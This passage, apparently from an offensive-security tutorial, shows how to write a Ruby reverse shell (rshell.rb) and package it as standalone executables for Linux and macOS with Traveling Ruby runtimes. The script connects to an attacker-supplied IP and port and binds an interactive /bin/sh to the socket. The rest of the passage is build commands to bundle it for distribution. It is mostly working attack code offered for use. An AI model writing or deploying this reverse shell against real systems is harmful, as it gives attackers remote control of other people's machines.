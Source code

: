 #### Preparation

```
mkdir rshell
cd rshell
```

* Create your application -in our case, reverse shell- in "rshell" folder

**rshell.rb**

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'
if ARGV.size < 2
  puts "ruby #{__FILE__} [HACKER_IP] [HACKER_PORT]\n\n"
  exit 0 
end
ip, port = ARGV
s = TCPSocket.open(ip,port).to_i
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)
```

* Test it&#x20;

```
ruby rshell.rb 
# => ruby rshell.rb [HACKER_IP] [HACKER_PORT]
```

**Creating package directories**

The next step is to prepare packages for all the target platforms, by creating a directory each platform, and by copying your app into each directory. (Assuming that your application could differ from OS to another)

```
mkdir -p rshell-1.0.0-linux-x86/lib/app
cp rshell.rb rshell-1.0.0-linux-x86/lib/app/

mkdir -p rshell-1.0.0-linux-x86_64/lib/app
cp rshell.rb rshell-1.0.0-linux-x86_64/lib/app/

mkdir -p rshell-1.0.0-osx/lib/app/
cp rshell.rb rshell-1.0.0-osx/lib/app/
```

Next, create a `packaging` directory and download Traveling Ruby binaries for each platform into that directory. Then extract these binaries into each packaging directory. You can find a list of binaries at the Traveling Ruby Amazon S3 bucket. For faster download times, use the CloudFront domain "[http://d6r77u77i8pq3.cloudfront.net](http://d6r77u77i8pq3.cloudfront.net)". In this tutorial we're extracting version 20141215-2.1.5.

```
mkdir packaging
cd packaging
wget -c  http://d6r77u77i8pq3.cloudfront.net/releases/traveling-ruby-20141215-2.1.5-linux-x86.tar.gz
wget -c  http://d6r77u77i8pq3.cloudfront.net/releases/traveling-ruby-20141215-2.1.5-linux-x86_64.tar.gz
wget -c  http://d6r77u77i8pq3.cloudfront.net/releases/traveling-ruby-20141215-2.1.5-osx.tar.gz
cd ..

mkdir rshell-1.0.0-linux-x86/lib/ruby && tar -xzf packaging/traveling-ruby-20141215-2.1.5-linux-x86.tar.gz -C rshell-1.0.0-linux-x86/lib/ruby
mkdir rshell-1.0.0-linux-x86_64/lib/ruby && tar -xzf packaging/traveling-ruby-20141215-2.1.5-linux-x86_64.tar.gz -C rshell-1.0.0-linux-x86_64/lib/ruby
mkdir rshell-1.0.0-osx/lib/ruby && tar -xzf packaging/traveling-ruby-20141215-2.1.5-osx.tar.gz -C rshell-1.0.0-osx/lib/ruby
```